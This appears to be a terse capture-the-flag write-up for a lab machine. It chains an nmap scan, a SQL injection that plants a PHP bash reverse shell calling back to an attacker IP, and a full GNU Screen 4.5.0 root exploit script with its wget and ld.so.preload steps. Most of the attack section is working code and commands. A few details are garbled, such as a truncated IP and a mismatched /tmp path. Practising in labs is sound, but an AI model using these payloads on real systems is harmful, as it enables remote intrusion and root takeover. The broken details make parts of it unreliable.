

"That was pretty tough"  
 Me

`nmap 192.168.154.162 -p- -sC -sV -sS --min-rate 5000`


FTP:


The recovered PHP script has a eval vulnerability, and has the ability to use the url for SQL injection. 


Table: webpages  
Column: route_sting, page_data  
Variable: $conn

`http://192.168.176.162/"; INSERT INTO webpages(route_string, page_data) VALUES ('/rev', 'system("bash -i >& /dev/tcp/192.168.45.179/1234 0>&1");');-- -`

This explains these vulnerabilities.  
https://myhackingnotes.com/ctf/proving_grounds/cobweb/




`http://192.168.176.162/"; INSERT INTO webpages(route_string, page_data) VALUES ('/rev', 'system("bash -i >& /dev/tcp/192.168.45.179/1234 0>&1");');`

The `-- -` isn't needed.

Start you listener:

Navigate to:  
`http://192.168.176.162/rev`


We're unable to execute scripts and binaries.  
Use bash or /bin/bash instead of ./ you can run scripts but not binaries.


`mount | grep noexec`


Last line: /tmp .... nosuid,nodev,noexec  
This explains why we aren't able to execute binaries. 

`find / -perm -u=s -ls 2>/dev/null'


I used this:

`git clone https://github.com/YasserREED/screen-v4.5.0-priv-escalate.git`  
`cat README.md`

Read it!

To compile this script you need to make some changes because of the noexec for the tmp file. The script invokes /tmp.  

This script will work for aarch64, if you're running x86 remove the `x86_64-linux-gnu-` in front of gcc.


This is what my script ended up looking like.

```
#!/bin/bash

echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > libhax.c                            
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/var/tmp/rootshell", 0, 0);
    chmod("/var/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
echo "[+] libhax.c Created .."

x86_64-linux-gnu-gcc -fPIC -shared -ldl -o libhax.so libhax.c
rm -f libhax.c
echo "[+] Create libhax.so .."
cat << EOF > rootshell.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execl("/bin/sh", "sh", NULL);
    return 0;
}
EOF

echo "[+] Create rootshell .."
x86_64-linux-gnu-gcc  -o rootshell rootshell.c  -static
rm -f rootshell.c

echo "[+] Setup Finished!"
echo ""
echo "[+] Move libhax.so and rootshell to the Target Machine"
exec /bin/bash  
```

Kali:  
`cd /var/tmp`  
`updog -p 80`

Victim:  
`wget http://192.168.45/libhax.so`  
 `wget http://192.168.45/rootshell`  
`chmod 777 *`  
`cd /etc || exit 1`  
`umask 000`  
`screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"`  
`screen -ls`  
`/var/tmp/rootshell`


